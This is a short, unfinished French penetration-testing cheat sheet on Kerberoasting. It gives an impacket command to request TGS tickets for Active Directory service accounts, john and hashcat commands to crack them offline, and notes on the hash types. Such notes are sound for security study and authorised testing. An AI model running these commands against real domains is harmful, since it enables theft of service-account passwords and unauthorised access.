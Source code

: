```yaml
---
description: A finir
---
```


# Kerberoast

### Récupération des tickets TGS

```
GetUsersSPN.py -request -dc-ip <IP-DC> <domain.local>/<USER> -outputfile impacket_TGS_<IP>.txt
```

Cette commande va recenser tous les comptes utilisateur (non machine) exécutant un service pour émettre une demande de ticket TGS en leur nom. Ces tickets seront ensuite affichés.

Il n'est pas possible de réaliser de _Pass The Ticket_ avec les TGS.

### Cassage des hashs obtenus

```
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```

Plusieurs format de hash peuvent être obtenu :

* $17 : AES128
* $18 : AES256 (-m 19700 sur hashcat, pas pris en compte par john)
* $23 : RC4-HMAC-MD5 (pris en compte par john)
